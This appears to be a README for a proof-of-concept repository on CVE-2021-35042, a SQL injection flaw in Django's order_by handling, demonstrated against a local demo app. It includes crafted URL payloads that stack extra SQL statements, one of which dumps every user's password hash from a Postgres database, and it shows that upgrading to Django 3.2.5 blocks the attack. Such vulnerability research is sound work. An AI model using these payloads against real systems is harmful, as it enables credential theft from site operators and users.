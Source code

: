 # CVE-2021-35042

Django SQL injection bug

Question: explore how exploitable is it?

Answer: I'm terrified

## Install

`poetry install`

`poetry run ./manage.py migrate`

`poetry run ./manage.py loaddata dummydata.json`

## Interactive Demo

`poetry run ./manage.py runserver`

#### Ordering by random fields

go to http://localhost:8000/?order_by=%22core_things_tags%22.%22things_id%22
note that the ?order_by param is passing a Raw SQL reference to a
column `"core_things_tags"."things_id"`

### terminate first query and try to run some sql

This feels like about as far as you can
get: http://localhost:8000/?order_by=%22core_things_tags%22.%22things_id%22%20and%201);%20select%201%20as%20name%20;--
which closes the first SQL query translates to the follow SQL:

```sql
SELECT "core_things"."id",
       "core_things"."name",
       COUNT("core_things_tags"."tag_id") AS "num_tags"
FROM "core_things"
         LEFT OUTER JOIN "core_things_tags" ON ("core_things"."id" =
                                                "core_things_tags"."things_id")
GROUP BY "core_things"."id", "core_things"."name",
         ("core_things_tags"."things_id" and 1);
select 1 as name;--) ORDER BY ("core_things_tags"."things_id" and 1); select 1 as name ;--) ASC LIMIT 21; args=()
```

which fails with:

```
Warning at /
You can only execute one statement at a time.
```

this is just because sqlite can only run 1 query at a time

#### revisit running 2nd query with postgres

```bash
export DJANGO_DATABASE_URL=postgres://user:pass@localhost:5432/cve-2021-35042 # make this a valid DATABASE_URL for your own postgres server
```

`poetry run ./manage.py migrate`

`poetry run ./manage.py loaddata dummydata.json`

`poetry run ./manage.py createsuperuser` # follow prompts

visit: http://localhost:8000/?order_by=%22core_things_tags%22.%22things_id%22%20);%20SELECT%201%20as%20id,%20%22password%22as%20name,%201%20as%20num_tags%20from%20%22auth_user%22;--

which runs the following sql:

```sql
SELECT "core_things"."id",
       "core_things"."name",
       COUNT("core_things_tags"."tag_id") AS "num_tags"
FROM "core_things"
         LEFT OUTER JOIN "core_things_tags" ON ("core_things"."id" =
                                                "core_things_tags"."things_id")
GROUP BY "core_things"."id", ("core_things_tags"."things_id");
SELECT 1 as id, "password" as name, 1 as num_tags
from "auth_user";--) ORDER BY ("core_things_tags"."things_id" ); SELECT 1 as id, "password"as name, 1 as num_tags from "auth_user";--) ASC;
```

you can now do basically anything. This query steals the password hash for every
user.

### Upgrade to non-vunerable version

now temporarily upgrade django

`poetry shell`

`pip install Django==3.2.5`

revisit the above URL and note that it no longer works:

```
FieldError at /
Cannot resolve keyword '"core_things_tags"."things_id"' into field. Choices are: id, name, num_tags, tags
```
